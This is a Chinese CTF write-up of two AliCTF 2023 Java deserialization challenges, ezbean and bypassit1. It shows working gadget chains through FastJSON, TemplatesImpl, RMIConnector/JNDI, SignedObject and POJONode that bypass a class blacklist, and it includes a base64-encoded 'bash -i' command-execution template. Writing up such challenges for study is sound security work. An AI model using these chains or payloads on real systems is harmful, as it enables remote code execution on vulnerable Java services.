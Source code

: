 ```yaml
---
tags: 
  - Java 反序列化
---
```


# AliCTF 2023

两个 java 题就放一起了。

## ezbean

题目有个 read 路由直接反序列化，而且提供了一个 Bean 能够打 rmi，但是反序列化走的是自己的 MyObjectInputStream，其中通过重写 resolveClass 方法 ban 掉了这样一些类：

```java
private static final String[] blacklist = new String[]{
        "java\\.security.*", "java\\.rmi.*",  "com\\.fasterxml.*", "dev\\.silente\\.javashark\\.solution\\.*",
        "org\\.springframework.*", "org\\.yaml.*", "javax\\.management\\.remote.*"
};
```
依赖包有个 fastjson 60，所以有个 toString2Getter，而 BadAttributeValueExpException 可以触发 toString。调试代码发现其实在 JSONArray/JSONObject 后输入流会变成 SecureObjectInputStream，不会走题目中的过滤，所以可以直接接上 MyBean。

```java
// BadAttributeValueExpException.toString -> FastJSON -> MyBean.getConnect -> RMIConnector.connect
// 有一点需要注意的是在 toString2Getter 中的 Mybean 走的是 SecureObjectInputStream，所以可以直接绕过题目中的 MyObjectInputStream
public static void case1(String jndi) throws Exception {
    JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi:///jndi/" + jndi);
    RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);

    MyBean myBean = new MyBean(null, null, rmiConnector);

    // 也可以使用 toString2GetterJSONObject
    // Object json = GFastJson.toString2GetterJSONObject(myBean);
    Object json = GFastJson.toString2GetterJSONArray(myBean);
    Object poc = GBadAttributeValueExpException.deserialize2ToString(json);

    byte[] code = SerializeUtils.serialize(poc);
    System.out.println(Base64.getEncoder().encodeToString(code));
    deserialize(code);
}
```

第二个 poc 是利用了 y4 师傅的[博客](https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E4%BA%8C/)，通过引用类型来达到绕过 SecureObjectInputStream autotype 的目的，这里都不用 MyBean 了，直接可以执行 TemplatesImpl。

```java
// BadAttributeValueExpException.toString -> FastJSON -> TemplatesImpl
public static void case2() throws Exception {
    TemplatesImpl templates = STemplates.getEvilTemplates("calc");

    Object json = GFastJson.toString2GetterJSONArray(templates);
    Object poc = GBadAttributeValueExpException.deserialize2ToString(json);

    ArrayList<Object> arrayList = new ArrayList<>();
    arrayList.add(templates);
    arrayList.add(poc);

    byte[] code = SerializeUtils.serialize(arrayList);
    System.out.println(Base64.getEncoder().encodeToString(code));
    deserialize(code);
}
```

第三个 poc 是 SignedObject 二次反序列化 （其实好像并不需要hh）
```java
// 二次反序列化
// BadAttributeValueExpException.toString -> FastJSON -> SignedObject -> MyBean.getConnect -> RMIConnector.connect
public static void case3(String jndi) throws Exception {
    JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi:///jndi/" + jndi);
    RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);

    MyBean myBean = new MyBean(null, null, rmiConnector);

    // 也可以使用 toString2GetterJSONObject
    // Object json = GFastJson.toString2GetterJSONObject(myBean);
    Object json = GFastJson.toString2GetterJSONArray(myBean);
    Object poc = GBadAttributeValueExpException.deserialize2ToString(json);

    byte[] p = SerializeUtils.serialize(poc);
    Object obj = GSignedObject.getter2Deserialize(p);
    Object json2 = GFastJson.toString2GetterJSONArray(obj);
    Object bd = GBadAttributeValueExpException.deserialize2ToString(json2);

    byte[] code = SerializeUtils.serialize(bd);
    System.out.println(Base64.getEncoder().encodeToString(code));
    deserialize(code);
}
```

参考：

- y4 师傅两篇文章: [1](https://y4tacker.github.io/2023/03/20/year/2023/3/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96), [2](https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E4%BA%8C/)
- 序列化/反序列化流程分析： [1](https://www.cnpanda.net/sec/893.html), [2](https://www.cnpanda.net/sec/928.html)

## bypassit1

只 ban 了一个 get 方法，Templates 其他方法也能弹，这里学到了一个 toString2Getter 的新类：POJONode，原生存在于 springboot 中。

```java
public static void task1() throws Exception {
    Object templates = STemplates.getEvilTemplates("bash -c {echo,QWQ}|{base64,-d}|{bash,-i}");

    Object json = GPOJONode.toString2Getter(templates);
    Object poc = GBadAttributeValueExpException.deserialize2ToString(json);

    byte[] code = SerializeUtils.serialize(poc);

    MiscUtils.sendToServer("http://112.124.14.13:8070/bypassit", code);
}
```

序列化时需要改动一下 POJONode 的 writeReplace 方法，要么直接删掉，要么可以这样改：
```java
@Override
Object writeReplace() {
    return new POJONode(_value);
}
```